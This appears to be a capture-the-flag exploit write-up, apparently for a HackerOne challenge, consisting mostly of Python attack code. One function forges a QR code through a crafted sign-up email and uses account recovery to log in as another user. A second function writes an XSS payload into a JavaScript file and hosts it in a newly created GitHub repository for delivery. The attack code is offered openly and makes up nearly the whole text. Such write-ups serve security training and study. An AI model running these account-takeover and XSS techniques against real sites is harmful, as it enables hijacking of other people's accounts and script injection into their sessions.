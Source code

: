 [![Exploit Video](http://img.youtube.com/vi/uNWVAgUK-6I/0.jpg)](http://www.youtube.com/watch?v=uNWVAgUK-6I)

Talk is cheap. Show me the code.

### Account Takeover

```python
def account_takeover():
    global session_jobert, csrf_jobert, CTF_URL, QRCODE_FILENAME
    
    print('[*] Signing up with jobert@mydocz.cosmic{{}} as e-mail address...')
    response_get_csrf = session_jobert.get(CTF_URL)
    csrf_jobert = response_get_csrf.cookies['_csrf_token']
    paramsPost = { "password" : "secretpassword", "password-confirmation" : "secretpassword", \
                "name" : "H1-415_FULL_EXPLOIT", "_csrf_token" : csrf_jobert, \
                "email": JOBERT_EMAIL ,"username":random_name()}
                
    response_acc_takeover = session_jobert.post(CTF_URL + '/register', data=paramsPost, verify=False)
    
    #print(response_acc_takeover.text)
    
    if response_acc_takeover.status_code == 200:
        b64_image = response_acc_takeover.text[response_acc_takeover.text.index('<img src="data:image/png;base64,')+32: \
                                               response_acc_takeover.text.index('" class="mx-20"')]
        
        qrcode_image = base64.b64decode(b64_image)
        saved_qrcode = open(QRCODE_FILENAME, 'wb')
        saved_qrcode.write(qrcode_image)
        saved_qrcode.close()
        
        print('[*] QRCode forged!')
        
        logout()
        
        recover_acc(csrf_jobert)
        print('[*] Successfully signed in as Jobert!')
```

### Upload XSS payload

```python
def deploy_XSS():
    global GITHUB_USER, XSS_PAYLOAD
    
    repo_name = create_repo()
    if repo_name is None:
        print('[X] Error while trying to create a Github repository')
        raise Exception
        
    dir_name = random_name()
    
    os.mkdir('./' + dir_name) # os raise exception if it fails
    os.chdir('./' + dir_name)
    
    file_name = random_name() + '.js'
    _file = open(file_name, 'w')
    _file.write(XSS_PAYLOAD)
    _file.close()
    
    repo_complete_name = GITHUB_USER + '/' + repo_name
    
    call('git init', shell=True)
```